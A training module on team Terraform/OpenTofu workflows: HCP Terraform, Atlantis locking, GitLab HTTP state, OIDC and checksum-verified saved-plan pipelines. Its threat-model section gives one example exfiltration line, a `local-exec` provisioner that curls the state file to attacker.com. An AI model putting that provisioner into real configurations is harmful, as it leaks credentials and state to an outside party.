


# Module 10: Collaborative IaC Operations: HCP Terraform, Atlantis, GitLab State, and Saved-Plan Pipelines

Operating Infrastructure as Code within multi-engineer teams introduces profound concurrency, security, and governance challenges. When multiple operators or autonomous CI/CD pipelines concurrently plan and apply changes against shared remote state, the risk of race conditions, conflicting state modifications, and unreviewed configuration deployments escalates exponentially.

This module examines collaborative IaC execution models, contrasting native HashiCorp Cloud Platform (HCP) Terraform architecture with self-hosted GitOps engines like Atlantis, GitLab-managed HTTP state backends, OpenTofu CI/CD components, and the foundational security engineering required to execute cryptographically verified two-stage saved-plan pipelines using keyless OpenID Connect (OIDC) authentication. For foundational pipeline architectures and GitLab CI specifics, cross-reference [`technologies/gitlab-ci/README.md`](../../gitlab-ci/README.md) and [`architecture/security-identity/modules/07-oidc-and-federation.md`](../../../architecture/security-identity/modules/07-oidc-and-federation.md).

---

## 1. Collaborative IaC Architecture and Execution Models

Infrastructure as Code workflows transition across three fundamental execution architectures:

```
Collaborative Execution Models:
+-------------------+-------------------------------------+-------------------------------------+
| Dimension         | Local CLI Execution                 | GitOps PR Automation (Atlantis)     | Remote Managed (HCP Terraform)      |
+-------------------+-------------------------------------+-------------------------------------+
| Execution Engine  | Developer Workstation               | Self-Hosted Atlantis Pod / VM       | Managed Cloud Container Workers     |
| State Locking     | Backend-Native (S3 Lockfile, GCS)   | Atlantis In-Memory + Backend Lock   | HCP Terraform Platform Lock         |
| Credential Storage| Local ~/.aws or Environment Vars    | Atlantis Host Instance IAM Role     | Workspace / Variable Set Secrets    |
| Review Trigger    | Out-of-band Screen Share / Chat     | Pull Request Comments (`atlantis`)  | VCS Webhooks / Speculative Run UI   |
| Blast Radius      | High (unrestricted operator perms)  | Medium (scoped to repository branch)| Low (workspace role-based policies) |
+-------------------+-------------------------------------+-------------------------------------+
```

### The Fundamental Threat Model of Collaborative IaC

1. **Stale Plan Apply Race Condition**: Operator $A$ runs `terraform plan` at time $t_1$. Operator $B$ runs `terraform plan` at $t_2$ and applies at $t_3$. If Operator $A$ runs `terraform apply` at $t_4$ without regenerating the plan against the new state, Operator $A$ overwrites or breaks the changes introduced by Operator $B$.
2. **Credential Exfiltration via Untrusted PRs**: If an external contributor submits a pull request that alters HCL to execute a malicious provisioner (e.g., `local-exec` invoking `curl -X POST -d @terraform.tfstate attacker.com`), a naive CI runner executing `terraform plan` on arbitrary PRs exposes production credentials and backend state.
3. **State File Interception**: Plaintext state files contain database master passwords, private cryptographic keys, and sensitive tokens. Unencrypted network transmission or unauthenticated backend storage compromises the entire infrastructure estate.

---

## 2. HCP Terraform Architecture and Governance

HCP Terraform (formerly Terraform Cloud) provides a managed multi-tenant and private SaaS control plane that decouples the Terraform execution engine from local developer machines.



### Organizational Hierarchy: Organizations, Projects, and Workspaces

HCP Terraform structures administration across three tiers:

- **Organization**: The top-level administrative boundary (e.g., `enterprise-corp`), managing billing, SSO/SAML identity mapping, audit logs, and global variable sets.
- **Projects**: Logical groupings of workspaces aligned to business domains, departments, or platforms (e.g., `ecommerce-platform`, `data-analytics`), enabling fine-grained Role-Based Access Control (RBAC).
- **Workspaces**: The fundamental unit of infrastructure management. Unlike open-source CLI workspaces (which merely separate state keys within the same backend), an HCP Terraform workspace encapsulates:
  - A single dedicated state file with lineage tracking and rollback history.
  - Direct VCS integration linked to a specific repository and branch.
  - Execution settings (Remote, Local, or Agent mode).
  - Environment variables (cloud credentials) and Terraform input variables.
  - Concurrency locks ensuring only one run executes at any time.

### HCP Terraform Run Modes

1. **VCS-Driven Runs**: Triggered automatically via webhooks on pull request creation (speculative plans) or merge to main (apply runs).
2. **CLI-Driven Runs**: Initiated from a local terminal using the `cloud` configuration block:
   ```hcl
   terraform {
     cloud {
       organization = "enterprise-corp"
       workspaces {
         name = "production-networking"
       }
     }
   }
   ```
   Terraform tars the local directory, uploads it to HCP Terraform, and streams plan/apply logs back to the terminal while executing remotely.
3. **API-Driven Runs**: Programmatically invoked by external deployment orchestrators, ServiceNow workflows, or custom internal developer portals via the HCP Terraform REST API.

### Governance: Variable Sets, Policy Sets, and Run Tasks

- **Variable Sets**: Centralized bundles of environment or Terraform variables assigned globally, per-project, or per-workspace. Sensitive variables (such as AWS keys or database passwords) are write-only: once saved, they can never be viewed in the UI or API.
- **Policy Sets**: Enforces HashiCorp Sentinel or OPA rules before allowing a run to proceed to the apply phase.
- **Run Tasks**: Asynchronous webhooks integrated into the planning lifecycle. HCP Terraform pauses the run and invokes external security scanners (e.g., Snyk, Checkov, Prisma Cloud) or cost estimators (Infracost). If a run task returns a blocking failure, the run halts.
- **HCP Terraform Stacks**: Introduced for multi-tier infrastructure orchestration, allowing declarative dependency declarations across multiple workspaces with automated deferred applies.
- **Self-Hosted Agents**: Isolated Docker containers deployed within a customer's private VPC. When HCP Terraform schedules a run for a private workspace, the agent pulls the job over an outbound HTTPS connection, provisions private network infrastructure, and returns execution logs without requiring inbound firewall openings.

---

## 3. GitOps IaC Engines: Atlantis Architecture

For organizations seeking a self-hosted, pull-request-driven GitOps workflow without cloud SaaS lock-in, **Atlantis** provides the de-facto open-source standard.



### Atlantis Concurrency and Lock Architecture

Atlantis prevents concurrent state corruption using a centralized locking engine:

1. When a PR touching a Terraform directory is opened, Atlantis automatically acquires an **Atlantis Lock** indexed by repository and project path.
2. If another engineer opens a competing PR touching the same directory, Atlantis refuses to execute plans on the second PR, posting an explicit comment: `This project is currently locked by PR #142`.
3. The project remains locked until PR #142 is merged and applied, or until the lock is manually discarded via the Atlantis web UI.

### PR Command Workflows and Security Boundaries

Engineers interact with Atlantis exclusively via pull request comments:

- `atlantis plan`: Triggers a speculative plan, rendering the formatted diff directly as a collapsible Markdown comment in the PR.
- `atlantis apply`: Executes the pre-generated plan file. Atlantis can be configured to enforce strict merge gates:
  - Requiring peer approval on the PR before `atlantis apply` is permitted.
  - Requiring all CI checks to pass before applying.
  - Automatically merging the PR or deleting the branch immediately following a successful apply.

---

## 4. GitLab Managed State & OpenTofu CI Component

GitLab provides native Infrastructure as Code support, incorporating an HTTP-managed state backend, secure CI/CD templates, and official OpenTofu CI components.

### GitLab HTTP Backend Mechanics

Terraform and OpenTofu natively support the `http` backend. GitLab acts as an authenticated remote state server via its REST API:

```hcl
# backend.tf using GitLab HTTP State Backend
terraform {
  backend "http" {
    # The address is parameterized via CI environment variables
    # address        = "https://gitlab.com/api/v4/projects/<ID>/terraform/state/<NAME>"
    # lock_address   = "https://gitlab.com/api/v4/projects/<ID>/terraform/state/<NAME>/lock"
    # unlock_address = "https://gitlab.com/api/v4/projects/<ID>/terraform/state/<NAME>/lock"
    # lock_method    = "POST"
    # unlock_method  = "DELETE"
    # retry_wait_min = 5
  }
}
```

Authentication is handled seamlessly within GitLab CI pipelines using the short-lived, job-scoped `CI_JOB_TOKEN`:

```bash
# Initializing the HTTP backend inside a GitLab CI job
terraform init \
  -backend-config="address=${CI_API_V4_URL}/projects/${CI_PROJECT_ID}/terraform/state/${STATE_NAME}" \
  -backend-config="lock_address=${CI_API_V4_URL}/projects/${CI_PROJECT_ID}/terraform/state/${STATE_NAME}/lock" \
  -backend-config="unlock_address=${CI_API_V4_URL}/projects/${CI_PROJECT_ID}/terraform/state/${STATE_NAME}/lock" \
  -backend-config="username=gitlab-ci-token" \
  -backend-config="password=${CI_JOB_TOKEN}" \
  -backend-config="lock_method=POST" \
  -backend-config="unlock_method=DELETE" \
  -backend-config="retry_wait_min=5"
```

GitLab automatically manages distributed locks, records the complete historical version archive of every state push, and exposes visual state inspection in the project UI.

### Keyless OIDC Authentication in CI Pipelines

Storing long-lived static AWS access keys or GCP service account credentials in CI/CD secrets variables introduces severe security risks. Modern enterprise pipelines enforce keyless OpenID Connect (OIDC) identity federation:

```
Keyless OIDC Flow:
[ GitLab / GitHub CI Runner ]
              |
              v (1. Requests OIDC JWT with Audience & Claims)
    [ CI OIDC Token Issuer ]
              |
              v (2. Signs JWT: job_id, project_path, git_ref)
[ Cloud STS (e.g. AWS AssumeRoleWithWebIdentity) ]
              |
              v (3. Validates Signature against JWKS & Checks Trust Policy)
[ Temporary Cloud Credentials (1-Hour Duration) ]
              |
              v (4. Injected into Provider Session)
[ Provision Cloud Infrastructure ]
```

---

## 5. The Strict Saved-Plan Pipeline Architecture

The golden rule of enterprise IaC automation is the **Apply Reviewed Plan Invariant**:

> A continuous delivery pipeline must NEVER execute `terraform apply` against raw configuration files. It must ONLY apply the exact binary plan file generated during the planning phase and inspected during human review.

```
Speculative Plan vs Direct Apply Pipeline Comparison:
Anti-Pattern:
[ Code Commit ] -> [ terraform apply -auto-approve ] -> (Applies UNREVIEWED drift + code)

Strict Saved-Plan Architecture:
[ Code Commit ] -> [ terraform plan -out=tfplan ]
                        |
                        +---> [ Cryptographic Hash: sha256sum tfplan ]
                        |
                        +---> [ Human Review & OPA Conftest Gate ]
                        |
                        v (Manual Approval)
                   [ terraform apply tfplan ] -> (Guarantees zero divergence)
```

### Two-Stage Plan Verification Algorithm

```
Algorithm: VerifyAndApplySavedPlan
Input: PlanArtifactPath, ExpectedChecksum, ApprovedCommitSHA
Output: ExecutionResult

1. CurrentCommit = Git.GetCurrentCommitSHA()
2. if CurrentCommit != ApprovedCommitSHA then:
3.     raise SecurityError("Pipeline commit SHA mismatch: approved " + ApprovedCommitSHA + " but running " + CurrentCommit)
4. end if
5. CalculatedChecksum = Crypto.SHA256(PlanArtifactPath)
6. if CalculatedChecksum != ExpectedChecksum then:
7.     raise IntegrityError("Plan artifact tampering detected! Checksum mismatch.")
8. end if
9. PlanMetadata = TerraformCore.InspectPlanFile(PlanArtifactPath)
10. if PlanMetadata.IsStale(CurrentStateLineage, CurrentStateSerial) then:
11.    raise ConcurrencyError("State lineage or serial changed since plan was generated. Stale plan rejected.")
12. end if
13. // Invariant: The plan file is bit-for-bit identical to the reviewed artifact and applies cleanly
14. ExecutionResult = TerraformCore.ExecuteApply(PlanArtifactPath)
15. return ExecutionResult
```

### Hardened Production GitLab CI Pipeline Specification

```yaml
# .gitlab-ci.yml
stages:
  - validate
  - plan
  - review
  - apply

variables:
  STATE_NAME: 'production-core'
  TF_ROOT: 'environments/production'

default:
  image: 'ghcr.io/opentofu/opentofu:1.13.2'
  before_script:
    - cd ${TF_ROOT}
    - tofu init -backend-config="address=${CI_API_V4_URL}/projects/${CI_PROJECT_ID}/terraform/state/${STATE_NAME}" -backend-config="lock_address=${CI_API_V4_URL}/projects/${CI_PROJECT_ID}/terraform/state/${STATE_NAME}/lock" -backend-config="unlock_address=${CI_API_V4_URL}/projects/${CI_PROJECT_ID}/terraform/state/${STATE_NAME}/lock" -backend-config="username=gitlab-ci-token" -backend-config="password=${CI_JOB_TOKEN}" -backend-config="lock_method=POST" -backend-config="unlock_method=DELETE"

validate:
  stage: validate
  script:
    - tofu fmt -check
    - tofu validate

plan:
  stage: plan
  script:
    - tofu plan -out=tfplan.binary
    - tofu show -json tfplan.binary > tfplan.json
    - sha256sum tfplan.binary > tfplan.sha256
  artifacts:
    name: 'plan-${CI_COMMIT_SHORT_SHA}'
    expire_in: 7 days
    paths:
      - ${TF_ROOT}/tfplan.binary
      - ${TF_ROOT}/tfplan.json
      - ${TF_ROOT}/tfplan.sha256

policy_gate:
  stage: review
  dependencies:
    - plan
  image: 'openpolicyagent/conftest:v0.71.1'
  before_script: []
  script:
    - conftest test ${TF_ROOT}/tfplan.json --policy ./policies

apply:
  stage: apply
  dependencies:
    - plan
  rules:
    - if: '$CI_COMMIT_BRANCH == "main"'
      when: manual
  script:
    - sha256sum -c tfplan.sha256
    - tofu apply -input=false tfplan.binary
```

---

## 6. Then vs Now Comparison

| Dimension | Legacy CI Automation (2017 - 2020) | Modern Collaborative IaC (2024 - 2026) | Architectural Rationale |
| :-- | :-- | :-- | :-- |
| **Authentication** | Long-lived cloud API access keys stored in CI variables. | Ephemeral OpenID Connect (OIDC) keyless workload federation. | Eliminates credential theft risk and eliminates key rotation overhead. |
| **Plan Execution** | Unchecked `terraform apply -auto-approve` on merge. | Strict two-stage saved-plan pipelines with cryptographic SHA256 verification. | Guarantees zero divergence between human-reviewed diffs and applied cloud changes. |
| **State Backend** | Self-managed S3 bucket with manual DynamoDB lock table. | Native managed HTTP state (GitLab, HCP Terraform) or S3 native lockfiles. | Eliminates separate DynamoDB billing and IAM configuration; built-in versioning UI. |
| **Concurrency Control** | Basic backend locking; concurrent PRs overwrite plans. | Centralized GitOps PR locking (Atlantis) or platform run queuing (HCP Terraform). | Prevents competing pull requests from applying stale state updates. |
| **Policy Integration** | Ad-hoc Python or Bash scripts parsing CLI stdout text. | Schema-validated OPA/Conftest or native Terraform Policy/Sentinel gates. | Resilient against CLI formatting changes; supports formal compliance gating. |

---

## 7. Exam Delta: Associate 004 vs Modern Capabilities

> [!IMPORTANT]
> The HashiCorp Certified: Terraform Associate (004) exam targets **Terraform 1.12**. Candidates must understand the exact certification boundaries versus modern 1.16/1.17 features.

- **Exam Baseline (1.12)**:
  - Candidates must understand HCP Terraform core concepts: Organizations, Projects, Workspaces.
  - Understand workspace execution modes: Remote vs Local vs Agent execution.
  - Understand Variable Sets, Private Module Registry, and VCS integration triggers.
  - Understand Sentinel policy evaluation phases (advisory, soft-mandatory, hard-mandatory).
  - Understand the risk of applying without a saved plan.
- **Modern Delta (1.14 - 1.17)**:
  - The exam does NOT test HCP Terraform Stacks (declarative multi-workspace orchestration).
  - The exam does NOT test OpenTofu GitLab CI component specifications.
  - The exam does NOT test S3 native lockfiles (`use_lockfile = true`) eliminating DynamoDB tables.
  - The exam does NOT test the `-policies` CLI flag in pipeline integration (Terraform 1.17 GA).

---

## 8. Production Failure Modes and Operational Post-Mortems

### Failure Mode 1: Competing PR Force-Merge State Overwrite

- **Root Cause**: Team A opens PR #101 modifying a shared VPC. Team B opens PR #102 adding a subnet to the same VPC. Both pipelines execute `terraform plan` successfully. Team A merges PR #101 and applies. Team B merges PR #102 with a fast-forward merge and applies _its pre-generated plan_.
- **Failure Mechanics**: Team B's plan was compiled against state serial 14. Team A's apply bumped state serial to 15. When Team B's pipeline attempts `terraform apply tfplan.binary`, Terraform detects a state lineage/serial conflict: `Error: Saved plan is stale`. If Team B's pipeline was naively configured to re-run `terraform apply` directly upon plan failure, it would overwrite Team A's subnets, wiping out production resources.
- **Remediation**: Atlantis or HCP Terraform must enforce project-level locks on active PRs, rejecting concurrent plans. CI pipelines must reject stale plans and require re-planning against the updated trunk branch.

### Failure Mode 2: Unpinned CI Runner Applying Plan Across Minor Versions

- **Root Cause**: A GitLab CI runner pulls the `latest` Docker tag of Terraform: `image: hashicorp/terraform:latest`.
- **Failure Mechanics**: The `plan` stage executes under Terraform 1.15. Overnight, HashiCorp releases Terraform 1.16. The manual `apply` stage executes the next morning, pulling the new 1.16 binary. When 1.16 attempts to apply the plan file generated by 1.15, the binary format incompatibility halts execution with `Error: Plan file was created by an older version of Terraform`.
- **Remediation**: Pin exact, immutable image digests or semantic versions in CI definitions: `image: hashicorp/terraform:1.15.5` or `ghcr.io/opentofu/opentofu:1.13.2`.

### Failure Mode 3: Static AWS Secrets Leaked via Pipeline Log Verbosity

- **Root Cause**: A developer configures `TF_LOG=DEBUG` in GitLab CI to troubleshoot a provider error while using static `AWS_ACCESS_KEY_ID` and `AWS_SECRET_ACCESS_KEY` variables.
- **Failure Mechanics**: Provider HTTP request logging dumps full authorization headers and signed canonical requests into the publicly accessible GitLab pipeline build trace. Attackers harvest the credentials and compromise the AWS account.
- **Remediation**: Eliminate static credentials by enforcing keyless OIDC IAM federation. Always configure CI runner secret masking and forbid unredacted debug logging in public or multi-tenant pipelines.

### Failure Mode 4: Out-of-Band Remote State Force-Unlock Data Corruption

- **Root Cause**: A long-running CI job applying an RDS cluster is abruptly cancelled by a developer. The remote state backend retains the lock ID. A second developer runs `terraform force-unlock <LOCK-ID>`.
- **Failure Mechanics**: The cancelled CI runner process was still alive in an asynchronous teardown phase in the background. By force-unlocking the backend, the second developer allowed a concurrent apply to proceed. Both processes wrote to the state backend concurrently, corrupting the state JSON payload into an unparseable malformed file.
- **Remediation**: Verify that the process holding the lock is completely terminated before executing `force-unlock`. Inspect remote state backend logs and verify process IDs.

### Failure Mode 5: Plan Artifact Tampering via Insecure CI Cache

- **Root Cause**: A multi-stage CI pipeline shares `tfplan.binary` between the `plan` and `apply` stages using an unencrypted, world-writable shared runner disk cache.
- **Failure Mechanics**: An untrusted build job running on the same shared host replaces the binary plan file with a forged plan containing an embedded backdoor resource. The privileged `apply` stage executes the compromised plan.
- **Remediation**: Cryptographically hash plan artifacts (`sha256sum tfplan.binary > tfplan.sha256`), pass them strictly through authenticated, tamper-proof CI artifact stores, and verify the hash immediately prior to executing `terraform apply`.

---

## Interview Drill

<details><summary>1. Why is executing `terraform apply` without an explicit plan file considered a severe anti-pattern in automated CI/CD pipelines?</summary>

**Violation of the Plan-Apply Invariant and Race Conditions.**

- When `terraform apply` is executed without a pre-generated plan file argument, Terraform runs a fresh internal plan immediately prior to applying.
- In a team environment, external cloud drift or concurrent state commits may have occurred between the moment the pull request was reviewed and the moment the CI merge job runs.
- The unreviewed apply will execute changes that were never inspected or approved by human reviewers or policy engines.
- In contrast, running `terraform plan -out=tfplan.binary` freezes the exact sequence of planned mutations. When `terraform apply tfplan.binary` is invoked, Terraform verifies that the state has not diverged from the frozen plan snapshot. If divergence has occurred, execution safely aborts.
- Ref: HashiCorp Terraform Enterprise Best Practices; Continuous Delivery for Infrastructure.

</details>

<details><summary>2. How does Atlantis prevent conflicting state modifications across concurrent pull requests touching the same directory?</summary>

**Centralized Branch and Directory In-Memory Locking.**

- When an engineer opens a pull request modifying files in an infrastructure directory, Atlantis intercepts the webhook and attempts to acquire an internal lock on the tuple `(repository, directory)`.
- If no lock exists, Atlantis acquires the lock, executes `terraform plan`, and posts the formatted output back to the PR comment thread.
- If a second pull request is opened that touches the same directory, Atlantis checks its lock table, detects an active lock held by the first PR, and refuses to run.
- It posts an explanatory message to the second PR indicating who holds the lock and halts further operations until the first PR is either merged and applied, or the lock is manually discarded.
- Ref: Atlantis Documentation: Locking Architecture.

</details>

<details><summary>3. How does keyless OpenID Connect (OIDC) authentication eliminate the risks associated with static cloud credentials in CI/CD runners?</summary>

**Cryptographic Token Exchange and Ephemeral Session Tokens.**

- **Static Credentials**: Long-lived access keys stored in CI variables can be leaked via log traces, exfiltrated by malicious PR dependencies, and require continuous manual rotation.
- **OIDC Federation**: The CI platform (GitHub Actions or GitLab CI) runs an OIDC Identity Provider (IdP). When a pipeline runs, the runner requests a cryptographically signed JSON Web Token (JWT) containing verifiable claims (`project_path`, `ref`, `job_id`).
- The runner presents this token to the cloud provider's Security Token Service (STS) (e.g., AWS `AssumeRoleWithWebIdentity`).
- The cloud STS validates the token's digital signature against the CI platform's public JWKS keys and evaluates IAM trust policies.
- If authorized, STS issues temporary cloud credentials valid for a maximum of one hour. No static secrets are ever stored in the repository or runner configuration.
- Ref: RFC 7519 (JSON Web Token); AWS IAM OIDC Identity Providers.

</details>

<details><summary>4. In HCP Terraform, what is the architectural difference between a Workspace and an open-source CLI workspace?</summary>

**Complete Execution and Governance Isolation vs Simple State File Partitioning.**

- **CLI Workspaces (`terraform workspace new`)**: Merely changes the state file key path within the same remote backend (e.g., `env:/prod/terraform.tfstate`). All workspaces share the exact same backend configuration, cloud credentials, provider access, and local directory. Operators routinely make disastrous errors by running apply while pointing to the wrong workspace.
- **HCP Terraform Workspaces**: Autonomous administrative units. Each workspace possesses its own isolated state file, distinct VCS branch mapping, dedicated environment variables, separate RBAC access permissions, distinct Sentinel/OPA policy bindings, and individual execution history logs.
- Ref: HashiCorp Cloud Platform Architecture Guide.

</details>

<details><summary>5. What is the purpose of cryptographic SHA256 checksumming between the `plan` and `apply` stages of a CI pipeline?</summary>

**Artifact Integrity and Tamper Proofing.**

- In enterprise pipelines, the `plan` stage and the `apply` stage often run on different worker nodes or container instances separated by hours or days of human review.
- If plan artifacts are stored in shared or multi-tenant artifact repositories, a malicious actor or compromised intermediate job could replace `tfplan.binary` with an altered payload designed to provision backdoor credentials or delete security groups.
- Generating a `sha256sum` immediately upon plan completion and verifying that hash in the privileged `apply` stage mathematically guarantees that the binary executed is bit-for-bit identical to the reviewed artifact.
- Ref: NIST SP 800-204 (Security Strategies for Microservices-based Application Systems).

</details>

<details><summary>6. How does the GitLab HTTP backend handle distributed state locking during plan and apply operations?</summary>

**HTTP REST Endpoints with Lock IDs and Mutual Exclusion.**

- The Terraform HTTP backend interface defines standardized HTTP methods for state synchronization and locking.
- When Terraform initiates an operation, it sends an `HTTP POST` request to the configured `lock_address` carrying a JSON payload that contains an ephemeral Lock Info struct (UUID, operator username, operation type, timestamp).
- If no lock is currently registered, GitLab stores the lock record in its database and returns `HTTP 200 OK`.
- If another process already holds the lock, GitLab returns `HTTP 423 Locked`. Terraform halts execution and enters a backoff retry loop (`retry_wait_min`).
- Upon operation completion, Terraform issues an `HTTP DELETE` request to `unlock_address` carrying the Lock ID to release mutual exclusion.
- Ref: HashiCorp Terraform HTTP Backend Protocol Specification; GitLab Managed State Documentation.

</details>

<details><summary>7. What are HCP Terraform "Run Tasks" and at what phase of the pipeline do they execute?</summary>

**Third-Party Webhook Integrations within the Speculative Plan Lifecycle.**

- Run Tasks enable third-party security, compliance, and cost estimation platforms to participate directly in the HCP Terraform run lifecycle.
- They execute immediately **after the `terraform plan` phase completes, but before any policy checks (Sentinel/OPA) or apply approvals occur**.
- HCP Terraform sends an outbound webhook containing the plan JSON payload to the registered partner integration (e.g., Snyk, Infracost, Prisma Cloud).
- The external service evaluates the plan and returns a structured response: status (`passed` or `failed`), a diagnostic message, and a URL link to a detailed analysis report.
- Platform administrators can configure Run Tasks as advisory or mandatory, blocking the run if security vulnerabilities or cost overruns exceed predefined budgets.
- Ref: HCP Terraform Run Tasks Integration Guide.

</details>

---

## 10. Proof Map

Every theoretical assertion and design pattern in this module is verified deterministically in the local test suite:

- **Hermetic Test File**: [`../examples/ts/10-hcp-terraform-and-ci-workflows.test.ts`](../examples/ts/10-hcp-terraform-and-ci-workflows.test.ts)
  - `testSavedPlanVerification()`: Proves the cryptographic checksum verification algorithm and verifies that tampered or stale plans are rejected before execution.
  - `testAtlantisLockingEngine()`: Simulates centralized project/directory locking, verifying that concurrent PRs touching identical state paths are blocked.
  - `testHttpBackendProtocol()`: Validates the HTTP REST lock/unlock protocol and verifies mutual exclusion error handling (HTTP 423).
  - `testOidcTokenExchange()`: Simulates the cryptographic validation of CI JWT claims against cloud provider STS trust boundaries.
